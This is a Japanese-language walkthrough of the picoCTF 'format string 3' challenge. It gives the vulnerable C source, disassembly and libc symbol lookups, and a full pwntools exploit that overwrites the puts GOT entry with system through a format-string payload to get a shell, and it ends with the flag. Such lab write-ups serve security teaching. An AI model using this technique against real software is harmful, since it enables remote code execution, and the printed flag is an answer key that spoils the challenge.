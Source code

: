 # format string 3 : Binary Exploitation

This program doesn't contain a win function. How can you win?  
Download the binary [here](format-string-3).  
Download the source [here](format-string-3.c).  
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.  
Connect with the challenge instance here: `nc rhea.picoctf.net 62604`  

Author : SkrubLawd

# Solution

とりあえず、実行してみる。
```
$ nc rhea.picoctf.net 62604
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x70d1ea0353f0
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
ea193963fbad208bbe8f8701000000000000000000000000000000000782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825a0000000000000000000000000
/bin/sh
```
```
$ file format-string-3
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped
```
ソースコードを見る。
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```
おそらく、Format String Atackを用いて最後のputs関数のアドレスをフラグを出力しそうな関数のアドレスに書き換えることで、フラグが出力されるようにするのであろう。libcが配布されているので、system関数のアドレスに書き換えれば、シェルが起動できてフラグを取得できそうである。  
(libcについて調べていたら、Return-to-libc attackというものを見つけた。)  
GOT Overwriteというらしい。  
setvbufのアドレスが実行するたびに変わるため、ASLR(Address Space Layout Randomization)が有効になっていると考えられる。この場合、アドレスの下3桁(下位3nibble)は一定であるため、実行したときに出力されるsetvbufのアドレスを基準にフラグが出力される関数のアドレスを推定する。  
libcを見て関係する関数のところを探す。
```
$ nm -D libc.so.6
...
000000000007a3f0 W setvbuf@@GLIBC_2.2.5
...
00000000000f9a00 W sysconf@@GLIBC_2.2.5
0000000000157670 T sysctl@GLIBC_2.2.5
0000000000111c80 W sysinfo@@GLIBC_2.2.5
000000000010eef0 T syslog@@GLIBC_2.2.5
000000000004f760 W system@@GLIBC_2.2.5
000000000003f190 W sysv_signal@@GLIBC_2.2.5
0000000000104990 W tcdrain@@GLIBC_2.2.5
0000000000104a40 T tcflow@@GLIBC_2.2.5
0000000000104a60 T tcflush@@GLIBC_2.2.5
...
```
フラグが出力できそうな関数systemのアドレスは4f760、setvbufのアドレスは7a3f0。差分は、2ac90。  
逆アセンブルしてputs関数が格納されているアドレスを確認。
```
  4012e3:       e8 b8 fd ff ff          call   4010a0 <printf@plt>
  4012e8:       48 8b 05 59 2d 00 00    mov    rax,QWORD PTR [rip+0x2d59]        # 404048 <normal_string>
  4012ef:       48 89 c7                mov    rdi,rax
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
putsは0x401080に格納されているらしい。しかし、`readelf -a format-string-3`で確認してみると、
```
Relocation section '.rela.plt' at offset 0x1668 contains 4 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000404018  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000404020  000300000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000404028  000400000007 R_X86_64_JUMP_SLO 0000000000000000 printf@GLIBC_2.2.5 + 0
000000404030  000500000007 R_X86_64_JUMP_SLO 0000000000000000 fgets@GLIBC_2.2.5 + 0
No processor specific unwind information to decode
```
上記のように、puts関数のアドレスは0x404018であった。  
これを、setvbufのアドレスから2ac90を引いた数に書き換える。  
以下、実行コード。
```python solve.py
from pwn import *

context.log_level = "critical"
context.arch='amd64'

p = remote("rhea.picoctf.net", 62604)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 62604)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

p.recvline()
setvbuf_address = p.recvline()
#setvbuf_address = p.recvregex(b'0x*\n')
setvbuf_address = setvbuf_address[58:-1]
system_address = int(setvbuf_address, 16) - 0x2ac90

payload = fmtstr_payload(offset, {0x404018: system_address})

p.sendline(payload)

p.interactive()
```
実行する。
```
$ python solve.py 
                                                                                               c                      \x8b                                                      \x80                                        \x01                                                                                                 \x00      \x00aaaabaa\x18@@$                                                                                                                        l                                                                                                                                                                                                                                          ls                                                                                                                                                                                                                                         ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ strings flag.txt
picoCTF{G07_G07?_d285a282}
```

flagが得られた。

`picoCTF{G07_G07?_d285a282}`

# References

https://github.com/Gallopsled/pwntools-tutorial/tree/master
